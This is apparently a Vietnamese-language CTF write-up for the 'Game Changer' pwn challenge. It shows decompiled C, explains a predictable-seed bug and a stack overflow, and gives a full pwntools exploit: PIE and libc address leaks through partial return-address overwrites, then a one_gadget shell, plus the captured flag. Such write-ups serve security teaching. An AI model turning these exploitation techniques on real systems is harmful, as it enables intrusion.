 # Game Changer

## Ida 

```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+4h] [rbp-Ch] BYREF
  int v5; // [rsp+8h] [rbp-8h]
  unsigned int v6; // [rsp+Ch] [rbp-4h]

  init(argc, argv, envp);
  printf("Do you want to play a game? (1: Yes, 0: No): ");
  while ( (unsigned int)__isoc99_scanf("%d", &v4) != 1 || v4 > 1 )
  {
    while ( getchar() != 10 )
      ;
    printf("Invalid choice. Please enter 1 or 0: ");
  }
  while ( getchar() != 10 )
    ;
  if ( v4 )
  {
    if ( v4 == 1 )
    {
      v6 = 1;
      v5 = 0;
      while ( (int)v6 <= 5 && !v5 )
      {
        printf("Attempt %d:\n", v6);
        v5 = game();
        ++v6;
      }
      if ( v5 )
        ask();
      else
        puts("You couldn't guess the number. Better luck next time!");
    }
  }
  else
  {
    puts("Okay, maybe another time!");
  }
  return 0;
}

__int64 game()
{
  char s[20]; // [rsp+0h] [rbp-20h] BYREF
  int num_inp; // [rsp+14h] [rbp-Ch]
  unsigned int rand_result; // [rsp+18h] [rbp-8h]
  unsigned int v4; // [rsp+1Ch] [rbp-4h]

  v4 = 0;
  rand_result = randomize();
  puts("Let's play a game, try to guess a number between 1 and 100");
  fgets(s, 16, stdin);
  num_inp = atoi(s);
  if ( !num_inp )
  {
    puts("That's not a number");
    exit(0);
  }
  if ( num_inp == rand_result )
  {
    return 1;
  }
  else if ( num_inp >= (int)rand_result )
  {
    printf("Nope");
  }
  else
  {
    printf("Nope, the number i'm thinking is %d\n", rand_result);
  }
  return v4;
}

int ask()
{
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF

  puts("Congrats, you guessed it correctly. What do you want to do this morning?");
  read(0, buf, 290uLL);
  if ( strlen(buf) <= 0x7F )
  {
    puts("Oh, are you an introverted person?");
    exit(0);
  }
  return printf("Oh, you want to %s...\nWow, you're a very active person!\n", buf);
}

```

## Analysis and Exploit

- 1 chall có 2 bug là srand() tại hàm game() và bof tại hàm ask()
- để qua được hàm game thì quá đơn giản rồi 

```python 
p.sendlineafter(b': ', b'1')
libc.srand(libc.time(0))
lim = (libc.rand() + 34) % 23
print(lim)
p.sendlineafter(b'1 and 100\n', str(lim))
```
- vì PIE bật nên tại ta cẩn leak cả libc lẫn exe => ta sẽ chạy lại hàm ask (brute 1.5 byte cuối) và vừa leak exe cùng lúc

![image](https://github.com/gookoosss/CTF/assets/128712571/b239f6e6-4155-4857-b606-44a101bda0d7)


- ta vào hàm ask + 1 để tránh lỗi xmm0 của hàm printf

```python 
#leak exe 
    p.send(b'a'*0x108 + b'\x5b' + b'\x53')
    p.recvuntil(b'a'*0x108)
    exe_leak = u64(p.recv(6) + b'\0\0')
    exe.address = exe_leak - 0x135a - 0x1
    print(hex(exe_leak))
    print(hex(exe.address))
```

![image](https://github.com/gookoosss/CTF/assets/128712571/739ee6ad-d7f8-4c7c-a99f-c8a97dbaa264)


- như hình trên thì ta có ow cả rip cả hàm ask và hàm main cùng lúc

```python 
    payload = b'a'*0x108
    payload += p64(exe.sym.main+1) # rip ask == main + 1
    payload += b'a'*8 + p64(exe.sym.ask+1) # rip main == ask + 1
    p.send(payload)
```
- lúc này ta cần leak libc nên ta sẽ chạy lại hàm main để xóa content trên stack và setup lại data có chứa libc, sau khi leak được libc rồi thì hàm main sẽ ret lại vào hàm ask, và ta sẽ lấy shell tại đây

```python 
# leak libc
    payload = b'a'*0xc8
    p.sendafter(b'morning?\n', payload)
    p.recvuntil(b'a'*0xc8)
    libc_leak = u64(p.recv(6) + b'\0\0')
    libc.address = libc_leak - 0x43654
    print(hex(libc_leak))
    print(hex(libc.address))

    # get shell
    payload = b'a'*0x100
    payload += p64(exe.bss()+0x100)
    payload += p64(libc.address+0xebcf5)
    p.sendafter(b'morning?\n', payload)
```
- cuối cùng thì ta cũng có flag thôi 

![image](https://github.com/gookoosss/CTF/assets/128712571/4880c10c-3493-4a3e-82a0-be5b5c94aa9a)


## script 

```python 
from pwn import *
from ctypes import CDLL

while True:
    exe = ELF("./gamechanger")
    libc = CDLL("./libc.so.6")
    context.binary = exe
    # p = remote('ctf.tcp1p.com', 9254)
    p = process([exe.path])

    gdb.attach(p, gdbscript = '''
    b*game+82
    b*ask+102         
    c
    '''          
    )
            
    input()

    p.sendlineafter(b': ', b'1')
    libc.srand(libc.time(0))
    lim = (libc.rand() + 34) % 23
    print(lim)
    p.sendlineafter(b'1 and 100\n', str(lim))

    #leak exe 
    p.send(b'a'*0x108 + b'\x5b' + b'\x53')
    p.recvuntil(b'a'*0x108)
    exe_leak = u64(p.recv(6) + b'\0\0')
    exe.address = exe_leak - 0x135a - 0x1
    print(hex(exe_leak))
    print(hex(exe.address))


    # payload = b'a'*0x100
    # payload += p64(exe.bss()+0x100) + p64(exe.sym.ask+1)
    # p.send(payload)

    payload = b'a'*0x108
    payload += p64(exe.sym.main+1) # rip ask == main + 1
    payload += b'a'*8 + p64(exe.sym.ask+1) # rip main == ask + 1
    p.send(payload)

    p.sendlineafter(b': ', b'1')
    libc.srand(libc.time(0))
    lim = (libc.rand() + 34) % 23
    print(lim)
    p.sendlineafter(b'1 and 100\n', str(lim))
    # p.sendline(str(lim))

    # leak libc
    payload = b'a'*0xc8
    p.sendafter(b'morning?\n', payload)
    p.recvuntil(b'a'*0xc8)
    libc_leak = u64(p.recv(6) + b'\0\0')
    libc.address = libc_leak - 0x43654
    print(hex(libc_leak))
    print(hex(libc.address))

    # get shell
    payload = b'a'*0x100
    payload += p64(exe.bss()+0x100)
    payload += p64(libc.address+0xebcf5)
    p.sendafter(b'morning?\n', payload)

    try:
        p.sendline(b'echo ABCD')
        p.recvuntil(b'ABCD')
        break
    except:
        try:
            p.close()
        except:
            pass


p.interactive()

# TCP1P{w0w_1ve_n3v3r_533n_5uch_4_900d_g4m3_ch4n93r_29c19ff69c5760fee1db8cac282a7b073bec936f}
```

## Flag

TCP1P{w0w_1ve_n3v3r_533n_5uch_4_900d_g4m3_ch4n93r_29c19ff69c5760fee1db8cac282a7b073bec936f}
